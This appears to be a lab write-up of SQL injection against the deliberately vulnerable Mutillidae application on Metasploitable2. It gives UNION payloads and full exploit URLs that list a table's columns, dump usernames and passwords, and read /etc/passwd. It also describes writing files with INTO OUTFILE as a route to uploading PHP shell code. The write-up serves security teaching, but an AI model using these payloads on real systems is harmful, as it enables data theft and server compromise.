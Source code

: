 In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/user-attachments/assets/74b6e9df-1e69-4d95-90e1-1694db7f5fbe)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/user-attachments/assets/a0581171-e4e5-46ee-84ea-1a1d6410733e)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![244885903-f7dd79fb-c11c-41f3-8019-06685e9cd759](https://github.com/user-attachments/assets/f3fc6630-f371-45cc-a7f8-8cb78a436155)

## Reading and writing files on the web-server

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![244885909-13f4a113-06fc-4d62-a8ec-6525c4ec1343](https://github.com/user-attachments/assets/84c15fba-e4fe-413c-a282-ba6c3ec00655)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
